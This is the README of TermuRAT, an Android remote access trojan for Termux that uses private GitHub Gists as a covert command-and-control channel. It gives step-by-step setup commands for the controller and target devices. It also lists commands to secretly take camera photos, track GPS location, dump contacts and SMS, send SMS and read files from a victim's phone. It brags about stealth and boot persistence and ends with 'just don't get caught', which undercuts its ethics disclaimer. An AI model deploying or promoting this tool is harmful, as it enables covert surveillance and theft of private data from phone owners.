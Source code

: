 # TermuRAT (v 1.2)

**TermuRAT** is a stealthy, terminal-based Android Remote Access Trojan (RAT) built for Termux. It uses private GitHub Gists as a command-and-control (C2) channel, allowing remote command execution and data exfiltration without direct connections or suspicious traffic.

## 📷 Screenshot:
![The TermuRAT](IMG_20250729_184108.jpg)

## ⚙️ Features

- 🕵️ **Runs fully in Termux**
- 🛰️ **Gist-based C2** – Pulls commands and uploads results via GitHub Gists.
- 🧠 **Timestamp logic** – Executes commands only when the Gist updates.
- 🧼 **Clean & Minimal** – Lightweight, no dependencies beyond Termux and python in it.

## 🧠 How It Works

1. The Termux script checks a private GitHub Gist at intervals.
2. If the Gist has changed timestamp, it fetches the new command.
3. The command is executed locally in Termux in the target device.
4. The output is pushed back to another Gist as response.

## 📁 Structure

- `target.py` – Main RAT client script (runs on the target via Termux).
- `host.py` – Control-side script to send commands and fetch results.

## 🚀 Setup

1. Create a **GitHub Token**.
2. Set your GitHub token in host scripts.
3. Run `host.py`. It will genarate the gists and print in terminal.
4. Paste the token and gist id in target device and run `target.py` on target device via Termux.
5. Use `host.py` to send commands and read results.

## 📦 Requirements

- Termux and Termux:Api installed on target device.
- GitHub account & token with Gist access
- Terminal to send the command to target device.

## ⚠️ Disclaimer

This tool is for **educational and ethical research purposes only**. Unauthorized access to devices or systems is illegal and unethical. You are responsible for how you use TermuRAT.

## 🛠️ Installation

### On the **Host** (Control Machine):
```bash
pkg update && pkg upgrade
pkg install python git
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/HostSide
python host.py
```
🧠 host.py will auto-generate the required Gists and display their IDs. Like:
```json
{"token": "<your token>", "to_target_gist_id": "<gist_id1>", "to_host_gist_id": "<gist_id2>"}
```

Copy it and paste it in target device.


### On the **Target Device** (Termux):
```bash
pkg update && pkg upgrade
pkg install python git termux-api
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/TargetSide
nano data.json
```
Here you can see json like this: 
```json
{"token": "", "to_target_gist_id": "", "to_host_gist_id": ""}
```
⚠️ Make sure to paste the GitHub Token and Gist ID from host device.
Then run
```bash
python target.py
```

## 🧨 What Can You Do with TermuRAT?

- 🔍 **Run Shell Commands**  
  Execute any shell command on the target device—silently.

- 📂 **Access Files**  
  List directories, read file contents, or exfiltrate sensitive data.

- 📸 **Use Device Sensors**  
  If Termux:API is enabled, access location, battery status, or even take photos.

- 🧾 **Install or Run Scripts**  
  Deploy and run additional payloads or scripts on the fly.

- 🔁 **Persistent Execution**  
  With a little tweaking, make it auto-run at boot like a true lurker.

- 📡 **Communicate Silently**  
  No ports, no listeners—just GitHub being abused like a C2 server.

> And yes, it all happens through a tiny GitHub Gist. Told you it was sneaky.

## 🧪 Example Usage

After launching `target.py`, you can use various commands. Some examples are given below:


termux-toast "You’ve been hacked 😈" [Display a toast message (for fun or trolling)]

termux-vibrate -d 1000 [Vibrate the device for 1 second]

termux-battery-status [Get battery level, charging status, and health]

termux-location [Get the device's current GPS coordinates]

termux-camera-photo -c 0 [Take a photo using the front camera]
 
termux-camera-photo -c 1 [Take a photo using the rear camera]

termux-sensor -l [List all available hardware sensors]

termux-sensor -s accelerometer,gyroscope,light -n 2 | timeout 5 cat [Get real-time accelerometer data]

termux-telephony-deviceinfo [Fetch device IMEI, carrier info, and more]

termux-wifi-connectioninfo [Show current Wi-Fi connection details]
  
termux-contact-list [Dump all saved contacts]

termux-sms-list [List received SMS messages]
 
termux-sms-send -n 1234567890 "Yo, this phone is mine now." [Send an SMS from the target]

termux-notification --title "Warning" --content "You’re being watched." [Push a custom notification]

termux-dialog text [Show a prompt dialog (requires user input)]

df -h [Show internal storage usage stats]

ls /sdcard/ [List files in the device's internal storage]

cat /sdcard/secret.txt [Read contents of a specific file]

top -n 1 [Display real-time system resource usage]

ps -A [List all running processes]  
curl ifconfig.me [Get the device's public IP address]

uptime [Check how long the device has been running]

whoami [Display the current user (usually u0_aXXX in Termux)]

termurat exit -h [Internal command of TermuRAT to exit the program]

termurat print Hello [Prints text on target device]


## ❌ Cons (a.k.a. Why TermuRAT Isn't God Mode... Yet)

- 📱 Requires Termux to be **open and running** on the target (no background daemon magic)
- 🐢 Kinda slow due to polling + GitHub latency (not for real-time thrills)
- 🔑 Needs a valid **GitHub token** with Gist access (and could get rate-limited or flagged)
- 🌐 Requires internet access on both sides (obviously)
- 🧠 No built-in encryption (commands and responses are plain JSON unless you DIY it)
- 🔒 Cannot bypass Android permission prompts (Termux:API features may require manual grants)
- 🚫 No persistence out-of-the-box (won’t auto-restart after reboot unless you rig it)
- 🤖 Heavily dependent on Termux:API (some devices or versions might lack support)
- 👁️ Easily detectable by someone opening Termux and seeing output or history
- 💥 Can break if Gist is deleted, token revoked, or GitHub throws a tantrum
- - 🔗 A single host can control only **one target per Gist pair** (no multi-target support out of the box)

> Think of TermuRAT as a stealthy intern—it’ll do your bidding, but it won’t take over the world. Yet.


## 🧠 Final Words

TermuRAT is a proof of concept that shows how simple tools can be repurposed for powerful, stealthy control—without fancy exploits, just creativity and clever abuse of APIs. While it’s not a military-grade RAT, it gets the job done quietly, like a whisper in the terminal.

Use it wisely. Use it ethically. Or don’t—just don’t get caught.



**Built with Python, powered by GitHub, operated through Termux.** 
